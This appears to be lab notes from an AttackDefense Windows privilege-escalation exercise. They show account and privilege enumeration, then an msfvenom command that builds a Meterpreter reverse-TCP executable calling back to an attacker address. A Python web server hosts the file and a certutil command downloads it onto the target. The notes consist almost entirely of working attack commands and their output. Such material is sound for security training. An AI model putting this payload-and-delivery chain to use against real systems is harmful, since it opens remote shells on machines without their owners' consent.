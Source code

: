 In windows

```
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\student>net user

User accounts for \\PRIV-ESC

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
student                  WDAGUtilityAccount
The command completed successfully.


C:\Users\student>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

C:\Users\student>
```

[[msfvenom]]

```
root@attackdefense:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.12.2 LPORT=1234 -f exe -o payload.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: payload.exe
root@attackdefense:~# 
```

Python server

```
python -m SimpleHTTPServer 80
```

Downloading the file in windows using certutil

```
C:\Users\student\Desktop>certutil -urlcache -f http://10.10.12.2/payload.exe payload.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```
